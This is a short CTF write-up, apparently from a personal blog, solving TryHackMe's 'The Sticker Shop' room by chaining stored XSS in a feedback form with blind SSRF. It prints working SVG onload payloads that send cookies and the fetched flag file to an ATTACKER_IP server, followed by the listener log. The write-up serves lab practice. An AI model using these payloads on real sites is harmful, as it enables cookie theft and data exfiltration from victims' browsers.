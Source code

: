 ```yaml
---
title: "Writeup: TryHackMe The Sticker Shop"
date: "2025-05-02T13:54:38.250Z"
slug: "writeup-tryhackme-sticker-shop"
categories:
    - "writeups"
    - "it"
---
```



> [!info]
> - [The Sticker Shop](https://tryhackme.com/room/thestickershop)
> - Difficulty: easy
> - Platform: web
>
> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
>
> Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?

Small room to practice web pentesting. Vulnerabilities explored:

- Server-Side Request Forgery
- Cross-Site Scripting

{{< toc >}} 

## Information gathering

Accessing `http://MACHINE_IP:8080/flag.txt` returns a 401 Unauthorized error.

Web app running on port 8080 has a feedback page at `http://MACHINE_IP:8080/submit_feedback`:

![screenshot of feedback page with input field](ctf_sticker_shop_feedback.png)

Typically, information that something will be checked by the staff points to a potential attack vector.

## Getting flag via blind SSRF + XSS

First, I confirmed that there is a XSS vulnerability by sending feedback with SVG pinging my server:

```html
<svg/onload=body.appendChild(document.createElement`script`).src='http://ATTACKER_IP:5000?c='+document.cookie hidden/>
```

My server got the ping, but it didn't contain cookies, which I thought I would use to access the flag resource from my side. So, I changed the payload to cause a blind SSRF, get the flag value on the user side, and send it to my server:

```html
<svg onload="fetch('http://MACHINE_IP:8080/flag.txt').then(response=>response.text()).then(flag=>{const s=document.createElement('script');s.src='http://ATTACKER_IP:5000?k='+encodeURIComponent(flag);document.body.appendChild(s)});" hidden></svg>
```

Received flag is URL encoded, don't forget to decode it afterwards:

```bash
$ python3 -m http.server 5000
...SNIP...

MACHINE_IP - - [07/Apr/2025 15:41:12] "GET /?k=THM%7B83REDACTEDe6%7D HTTP/1.1" 200 -
```
